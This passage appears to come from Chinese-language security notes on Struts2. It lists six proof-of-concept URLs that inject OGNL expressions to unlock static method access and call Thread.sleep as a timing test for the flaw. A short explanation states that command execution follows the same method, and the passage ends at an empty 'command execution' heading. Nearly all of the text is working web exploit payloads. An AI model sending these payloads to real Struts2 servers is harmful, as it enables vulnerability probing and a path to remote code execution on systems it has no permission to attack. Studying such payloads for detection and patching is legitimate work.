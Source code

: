 #### **精确判断是否存在（延迟判断）:**

POC1:

```
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(d)(('@java.lang.Thread@sleep(5000)')(d)) 

```

POC2:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000))%2b' 

```

POC3:

```
http://127.0.0.1/Struts2/hello.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,@java.lang.Thread@sleep(5000))(meh%29&z[%28foo%29%28%27meh%27%29]=true 

```

POC4：

```
http://127.0.0.1/Struts2/hello.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3d+new+java.lang.Boolean(false)%2c+%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c+%23a%3d%40java.lang.Thread@sleep(5000))(aa)&x[(class.classLoader.jarPath)('aa')] 

```

POC5：

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000)} 

```

POC6:

```
http://127.0.0.1/Struts2/${%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000)}.action

```

之前很多的利用工具都是让线程睡一段时间再去计算时间差来判断漏洞是否存在。这样比之前的回显更靠谱，缺点就是慢。而实现这个POC的方法同样是非常的简单其实就是静态调用java.lang.Thread.sleep(5000)就行了。而命令执行原理也是一样的。

#### **命令执行：**
